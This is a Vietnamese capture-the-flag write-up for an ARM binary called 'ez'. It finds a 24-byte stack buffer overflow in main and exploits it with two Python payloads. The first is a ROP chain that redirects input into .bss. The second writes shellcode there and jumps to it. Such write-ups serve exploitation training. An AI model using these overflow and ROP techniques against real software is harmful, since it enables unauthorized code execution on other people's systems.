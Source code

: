 Đề cho ta file **ez** ARM</br>
![image](https://user-images.githubusercontent.com/23306492/40377949-5ffd91d4-5e1c-11e8-9387-96e85cce524d.png)</br>
disable toàn bộ</br>
![image](https://user-images.githubusercontent.com/23306492/40377995-7dfa49a2-5e1c-11e8-9bd7-c8fe8c856715.png)</br>
Hàm `main` ta thấy lỗi ở đây là stack overflow,   buf =  24 bytes </br>
![image](https://user-images.githubusercontent.com/23306492/40378321-6b083c36-5e1d-11e8-8719-0709df31c667.png)
</br>
Với bài này ta cần ghi đè shellcode và jump về địa chỉ shellcode</br>
Trước tiên ta cần ROP để có thể input vào bss</br>
```
pop_r3_pc = 0x102f0
bss = 0x21028
main = 0x10421
payload = 'A'*20
payload += p32(bss)
payload += p32(pop_r3_pc)
payload += p32(bss)
payload += p32(main)
r.sendline(payload)
````
 Sau đó quay trở lại `mov  R1,R3`và input lại lần 2 để có thể jump đến shellcode_address</br>
![image](https://user-images.githubusercontent.com/23306492/40378386-966751e6-5e1d-11e8-873e-ce9ef22351b8.png)</br>
```
payload = 'A'*28
payload += p32(bss+0x20)
payload += shellcode
r.sendline(payload)
```
[payload](url)</br>
![image](https://user-images.githubusercontent.com/23306492/40378289-4eece8d0-5e1d-11e8-8cef-2e473f5e03f5.png)
